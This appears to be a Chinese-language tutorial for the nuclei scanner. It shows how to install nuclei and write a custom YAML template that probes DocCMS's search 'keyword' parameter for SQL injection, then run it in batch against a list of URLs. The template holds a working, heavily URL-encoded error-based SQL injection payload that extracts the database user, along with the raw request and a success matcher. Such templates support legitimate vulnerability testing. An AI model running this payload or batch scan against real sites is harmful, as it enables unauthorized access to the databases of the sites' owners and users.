

- [下载安装](#下载安装)
- [实验一：批量检测](#实验一批量检测)

工具定位：漏洞扫描，自定义POC

## 下载安装
官网地址：https://github.com/projectdiscovery/nuclei
```
# MacOSX
brew install nuclei
# Go
go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest
```

## 实验一：批量检测
达成条件，向URL发送指定GET参数获取相应返回结果
- 请求URL：`https://example.com/search/index.php`
- 请求参数(GET)：`keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33`
- 获取响应内容包含 `ORDER BY id DESC` 的结果

自定义yaml模板
```yaml
# 必要字段 ID
id: DocCMS-keyword-SQLi
# 必要字段INFO
info:
    name: DocCMS-keyword-SQLi
    author: kylin
    tags: sqli,DocCMS
    reference: http://wiki.peiqi.tech/wiki/cms/DocCMS/DocCMS%20keyword%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html
    severity: high
# HTTP请求数据包
requests:
  # 原始数据包(RAW)内容
  - raw:
    - |
      GET /search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33/ HTTP1.1
      Host: {{Hostname}}
    # 匹配字符串包含 ORDER BY id DESC
    matchers:
      - type: word
        words:
          - "ORDER BY id DESC"
```

至此单个测试成功

  

指定 DocCMS-keyword-SQLi.yaml 模板并且指定 urls.txt 文件扫描

```
nuclei -l urls.txt -t DocCMS-keyword-SQLi.yaml
```